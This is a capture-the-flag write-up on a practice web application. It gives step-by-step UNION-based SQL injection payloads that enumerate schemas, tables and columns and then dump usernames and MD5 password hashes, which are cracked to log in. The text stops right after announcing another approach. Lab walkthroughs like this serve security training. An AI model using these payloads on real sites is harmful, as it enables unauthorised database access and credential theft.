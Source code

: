 ## Flag

```
b3a6e43ddf8b4bbb4125e5e7d23040433827759d4de1c04ea63907479a80a6b2
```

## How to find the flag

Knowing that this database is vulnerable to sql injections. We can go to any page which is vulnerable to sql injections like **Members.** Here we will exploit as much as we can the sql injection.

1. **Retrieving information:**
    
    First we should list all the databases inside this webserver. We can do it using the following command:
    
    ```sql
    1 union select schema_name, 2 from information_schema.schemata
    ```
    
    Here we can see that there is a database named Member_Brute_Force.
    
2. **Retrieving database tables:**
    
    In order to get the tables of this database we should get Member_Brute_Force string in hexadecimal:
    
    ```sql
    1 union select table_name, 2 from information_schema.tables where table_schema=0x4d656d6265725f42727574655f466f726365
    ```
    
3. **Finding Columns in the “db_default” table:**
    
    The important table here is db_default, we should list the columns inside of this table:
    
    ```sql
    1 UNION SELECT column_name, 2 FROM information_schema.columns WHERE table_name=0x64625f64656661756c74
    ```
    
    This will give use two important fields, username and password.
    
4. **Extracting data:**
    
     Here we will choose both columns and desplay them:
    
    ```sql
    1 UNION SELECT username, password FROM Member_Brute_Force.db_default
    ```
    
    As we can see we get the users **root** and **admin**. If we decrypt the password using MD5 decrypter we get that the password is **shadow**. Now if we go to the main page in sign in we can use these credentials to get the flag.
    

## Another approach

Knowing that this methos is based more in sql injection than brute force i will provide another way to get the password too.
